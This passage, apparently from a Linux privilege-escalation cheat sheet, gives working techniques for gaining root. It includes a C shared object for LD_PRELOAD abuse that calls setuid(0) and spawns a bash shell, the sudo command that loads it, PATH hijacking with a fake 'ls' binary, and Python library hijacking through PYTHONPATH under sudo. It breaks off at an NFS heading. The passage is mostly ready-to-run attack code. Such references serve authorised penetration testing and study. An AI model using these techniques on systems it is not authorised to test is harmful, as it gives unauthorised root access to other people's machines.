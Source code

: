### LD_PRELOAD Abuse

```c
// Compile with: gcc -fPIC -shared -o root.so root.c -nostartfiles
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

### Shared Object Hijacking

```bash
ldd /path/to/binary   # Check library dependencies
readelf -d /path/to/binary | grep PATH   # Check RUNPATH
```

### Path Abuse

```bash
PATH=.:${PATH}   # Add current directory to PATH
export PATH
```

Create malicious executable with same name as a trusted binary:
```bash
echo 'echo "PATH ABUSE!!"' > ls
chmod +x ls
```

### Python Library Hijacking
Methods:
1. Wrong write permissions on library files
2. Library path abuse
3. PYTHONPATH environment variable abuse

```bash
python3 -c 'import sys; print("\n".join(sys.path))'   # List Python path
pip3 show [module]   # Check module location
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./script.py   # Exploit with PYTHONPATH
```

### NFS Privilege Escalation
